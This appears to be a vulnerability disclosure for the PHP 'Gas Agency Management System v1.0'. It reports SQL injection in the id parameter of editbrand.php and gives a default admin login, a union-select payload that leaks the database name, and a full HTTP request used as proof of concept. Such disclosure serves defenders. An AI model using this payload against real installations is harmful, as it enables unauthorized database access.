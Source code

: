 # Gas Agency Management System v1.0 by mayuri_k has SQL injection

BUG_Author:

Login account: mayuri.infospace@gmail.com/admin

vendors: https://www.sourcecodester.com/php/15586/gas-agency-management-system-project-php-free-download-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /gasmark/editbrand.php?id=

Vulnerability location: /gasmark/editbrand.php?id=, id

dbname = gasmark

[+] Payload: /gasmark/editbrand.php?id=-1' union select 1,database(),3,4--+ // Leak place ---> id

```sql
GET /gasmark/editbrand.php?id=-1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=1848l0sacnthbvkk77stfdihkh
Connection: close


```

![image](https://github.com/assets/54017627/93cd5d3f-e890-492a-af6e-edc861d777e6)
